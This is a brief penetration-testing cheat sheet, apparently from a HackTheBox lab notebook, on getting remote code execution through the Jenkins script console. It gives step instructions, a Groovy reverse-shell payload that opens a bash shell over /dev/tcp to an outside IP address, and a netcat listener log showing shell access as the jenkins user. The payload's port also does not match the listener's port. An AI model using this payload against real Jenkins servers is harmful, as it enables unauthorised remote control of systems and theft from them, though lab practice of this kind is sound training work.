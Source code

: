 # Jenkins

### Authenticated RCE

* go to `manage jenkins` -> `script console`
* use the below payload&#x20;
* get shell

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/172.16.1.100/8080; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

ubuntu@dev:~/Documents/htb/dante/172.16.1.19$ nc -nlvp 8444
Listening on 0.0.0.0 8444
Connection received on 10.10.14.3 56854
id
uid=126(jenkins) gid=133(jenkins) groups=133(jenkins)
```
